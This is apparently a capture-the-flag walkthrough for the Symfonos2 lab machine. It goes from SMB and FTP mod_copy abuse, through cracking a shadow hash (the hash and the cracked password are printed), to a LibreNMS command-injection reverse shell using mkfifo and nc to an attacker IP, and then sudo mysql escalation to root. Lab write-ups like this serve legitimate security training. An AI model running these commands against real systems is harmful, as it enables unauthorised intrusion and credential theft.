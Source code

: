 # Symphono2 (Creatigon Basic Pentest)

---

- Nmap out

1. 21/ftp - ProFTPD 1.3.5
2. 22/ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
3. 80/http WebFS httpd 1.21
   - server-header - webfs/1.21
4. 139/netbios-ssn Samba smbd 3.X - 4.X
5. 445/netbios-ssn Samba smbd 3.X - 4.X

- smbmap -> anonymous (Read only)

```sh
smbclient //$IP/anonymous
```

- get log.txt
- in log.txt

```
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
root@symfonos2:~# cat /etc/samba/smb.conf
...
[anonymous]
   path = /home/aeolus/share
```

- smb anonymous is shared the /home/aeolus/share folder and shadow file is backed up at /var/backups

- open ftp $IP

```sh
site help
site CPFR /var/backups/shadow.bak
site CPTO /home/aeolus/share/shadow.bak
```

- copy shadow.bak file at smb anonymous share
- also copy /etc/passwd under smb anonymous share

- unshadow passwd, shadow files
- crack with hashcat for aeolus

```sh
hashcat -m 1800 aeolus /usr/share/wordlists/rockyou.txt
```

$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:`sergioteamo`

- enter aeolus with password sergioteamo
- run linpeas.sh
- found active ports running as localhost

```
127.0.0.1:3306
127.0.0.1:8080
127.0.0.1:25
```

- ssh port forward to local machine
- inside our attacking machine

```sh
ssh -L 8080:127.0.0.1:8080 aeolus@$IP
```

- librenms running and found exploit `https://www.exploit-db.com/exploits/47044`

![](images/2023-02-28-13-17-33.png)

- payload inside Community

```
'$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.25 8889 >/tmp/f) #
```

- listen at your local host with port 8889
- then request to

```
http://127.0.0.1:8080/ajax_output.php?id=capture&format=text&type=snmpwalk&hostname=dummy%20device
```

![](images/2023-02-28-13-21-57.png)

- `sudo -l` ->

```
User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```

- find at gtfobins

```
$ sudo mysql -e '\! /bin/sh'
whoami
root
```
